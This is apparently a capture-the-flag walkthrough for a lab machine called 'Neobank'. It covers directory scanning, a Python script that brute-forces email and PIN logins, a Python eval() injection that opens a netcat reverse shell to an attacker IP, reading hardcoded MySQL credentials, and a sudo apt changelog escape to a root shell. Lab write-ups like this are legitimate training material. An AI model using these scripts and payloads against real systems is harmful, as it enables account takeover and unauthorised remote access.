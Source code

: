# Neobank 

## Directory Scan
```console
┌──(alienum㉿kali)-[~]
└─$ gobuster dir -k -u http://10.0.2.121:5000/ -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt
/login
/logout
/otp
/qr
/withdraw
/email_list
```
## Retreive emails
Under the /email_list you can retrieve the emails

## Brute force
```console
┌──(alienum㉿kali)-[~]
└─$ cat /usr/share/wordlists/rockyou.txt | grep "^[0-9]" > pins.txt

┌──(alienum㉿kali)-[~]
└─$ nano neobank-bf.py
import requests
import sys
url = 'http://10.0.2.121:5000/login'
with open('/home/alienum/Desktop/emails.txt') as users:
  for u in users:
    with open('/home/alienum/Desktop/pins.txt') as pins:
       for p in pins:
          user = {"email":u.strip(),"pin":p.strip()}
          r =  requests.post(url,data = user)
          if len(r.cookies) != 0:
             print('~~~~~~~~~~~~~~~~~~~')
             print('Credentials found!!')
             print('~~~~~~~~~~~~~~~~~~~')
             print('[+] Username : '+ u.strip())
             print('[+] Password : '+ p.strip())
             sys.exit()
             
┌──(alienum㉿kali)-[~]
└─$ python3 neobank-bf.py
[+] Username : z***@neobank.vln
[+] Password : 2*****
```
## OTP google authenticator
scan the qrcode and insert the otp code

## Exploit eval() python function 

__import__('os').system('nc -e /bin/sh 10.0.2.15 4444')

## MySQL enumeration
cat /var/www/html/main.py
banker:neobank1
mysql -u banker -pneobank1
use bank;
select * from system;
banker:adv1se.me
## GTFObins
sudo apt-get changelog apt
!/bin/sh

